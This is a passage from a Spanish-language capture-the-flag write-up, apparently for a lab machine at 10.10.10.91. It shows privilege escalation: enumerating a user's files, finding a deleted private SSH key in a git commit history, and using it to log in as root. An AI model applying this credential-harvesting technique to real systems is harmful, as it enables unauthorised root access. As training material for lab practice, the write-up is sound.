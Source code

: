 ## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
ls -la
id
sudo -l
```

Aqui vemos que el usuario roosa esta en el grupo sudo pero no tenemos su contraseña. Listando los ficheros del usuario **roosa**
vemos que hay muchos ficheros, lo analizamos mas en profundidad.

```bash
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep -v ".local"
```

Aqui no llama la atencion un directorio que contiene un `.git`. Sabiendo que repositorios **git** contienen un historico de tratamiento
de ficheros nos dirigimos en este proyecto y miramos el historico de comits.

```bash
cd work/blogfeed/
ls -la
git log
```

mirando el historico, vemos un mensaje un poco turbio **reverted accidental commit with proper key**

miramos lo que a passado en este commit. Nos copiamos el identificador del commit.

```bash
git log -p 33e87c312c08735a02fa9c796021a4a3023129ad
```

Aqui vemos que han borrado un key para ponerle otra. La copiamos y de la misma manera que con el usuario roosa, intentamos conectarnos como
root por ssh.

```bash
ssh -i id_rsa2 root@10.10.10.91
```

Y hemos podido entrar... Ya podemos examinar la flag.

